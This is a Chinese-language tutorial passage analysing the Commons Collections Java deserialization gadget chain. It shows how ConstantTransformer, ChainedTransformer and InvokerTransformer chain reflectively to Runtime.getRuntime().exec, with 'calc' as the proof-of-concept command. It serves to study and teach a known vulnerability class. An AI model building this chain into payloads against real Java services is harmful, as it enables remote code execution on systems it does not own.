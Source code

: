 ```java
```

* 这里出现了两个新的类ConstantTransformer和ChainedTransformer。

* 对于ConstantTransformer主要关注transform方法，以看出可以传入一个类实例化以后，调用transform方法，会直接返回传入的类。这个正好可以用来获得Runtime.getRuntime()类。

* 对于ChainedTransformer也是主要关注transform方法和构造函数ChainedTransformer(Transformer[] transformers)，构造函数可以传入一个Transformer数组，然后ChainedTransformer的transform方法又可以遍历执行传入对象数组的transform方法

```java
public class ConstantTransformer implements Transformer, Serializable {

    public ConstantTransformer(Object constantToReturn) {
        super();
        iConstant = constantToReturn;
    }

    public Object transform(Object input) {
        return iConstant;
    }
}
```

```java
public class ChainedTransformer implements Transformer, Serializable {

    public ChainedTransformer(Transformer[] transformers) {
        super();
        iTransformers = transformers;
    }

    public Object transform(Object object) {
        for (int i = 0; i < iTransformers.length; i++) {
            object = iTransformers[i].transform(object);
        }
        return object;
    }
}
```

* 简单分析一下任意代码执行过程

```java
object=Runtime.class;

object = InvokerTransformer("getMethod", new Class[] { String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }).transform(object);
/*
 Runtime.class.getClass().getMethod( new Object[] { "getRuntime", new Class[0] })
 通过getMethod获取getRuntime方法
*/

object = InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] { null, new Object[0] }).transform(object);
/*
getRuntime.invoke(new Class[] { null, new Object[0] });
即
静态方法的反射执行方式为Method.invoke(null)
通过invoke执行getRuntime
*/

object = InvokerTransformer("exec", new Class[] { String.class }, new Object[] { "calc" });
/*
getRuntime().exec(new Object[] { "calc" })
*/
```
